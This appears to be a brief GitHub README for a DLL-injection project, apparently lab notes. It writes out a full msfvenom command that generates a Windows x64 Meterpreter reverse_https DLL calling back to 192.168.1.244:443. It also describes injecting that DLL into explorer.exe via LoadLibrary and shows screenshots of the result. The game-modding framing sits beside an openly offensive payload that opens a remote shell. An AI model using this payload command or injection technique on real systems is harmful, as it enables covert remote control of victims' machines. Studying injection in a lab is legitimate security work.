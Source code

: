 # DLL-injection
Rushed will goback and explain it better
Usually fun with injecting into video games
basic dll injection script 
script will download the following 
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.244 LPORT=443 -f dll -o met.dll       

dll will be injected into explorer.exe using loadlibrary 
![image](https://github.com/user-attachments/assets/5c7334f5-e9f1-4adb-9ec7-87610728c5fc)


you can than use the process explorer to look our injected dll into explorer.exe
![image](https://github.com/user-attachments/assets/5119ee91-002d-4781-90f1-22fbbd175e78)
